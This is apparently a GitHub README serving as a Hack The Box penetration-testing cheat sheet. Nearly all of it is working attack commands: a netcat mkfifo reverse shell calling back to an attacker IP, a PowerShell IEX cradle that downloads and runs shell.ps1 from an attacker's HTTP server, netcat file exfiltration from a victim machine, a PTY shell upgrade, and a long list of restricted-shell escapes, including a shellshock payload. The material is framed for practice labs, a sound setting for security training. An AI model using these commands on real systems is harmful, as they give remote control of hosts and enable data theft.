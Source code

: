 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine
```shell
# Listen for reverse shell
nc -lnvp <port number> 
# Use netcat for reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port> >/tmp/f
```
**les.sh, LinEnum.sh, lse.sh (Recommended)** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
wget (your ip address):8000/(file to upload)
```
Example : 
```shell
wget 10.10.14.62:8000/les.sh
```
### How to execute powershell script to vuln windows machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
# if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
# or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
```shell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
```
### How to spawn bash shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### How to download file using netcat
```shell
# In your machine
nc -lnvp 6666 > file
# In vuln machine
nc -w 3 <your ip> 6666 < file
```
### How to escape rbash
```shell
ftp > !/bin/sh or !/bin/bash
gdb > !/bin/sh or !/bin/bash
more/man/less > !/bin/sh or !/bin/bash
vim > !/bin/sh or !/bin/bash
vim > :python import os; os.system("/bin/bash")
scp > scp -S /path/yourscript x y:
awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}'
find > find / -name test -exec /bin/sh or /bin/bash \;
except > except spawn sh then sh.
python > python -c 'import os; os.system("/bin/sh")'
php > php -a then exec("sh -i");
perl > perl -e 'exec "/bin/sh";'
lua > os.execute('/bin/sh').
ruby > exec "/bin/sh"
ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
ssh2 > ssh username@IP -t "bash --noprofile"
ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
git > git help status > you can run it then !/bin/bash
pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
### Useful website
[Pentest Monkey (Reverse shell script) ](http://pentestmonkey.net/)

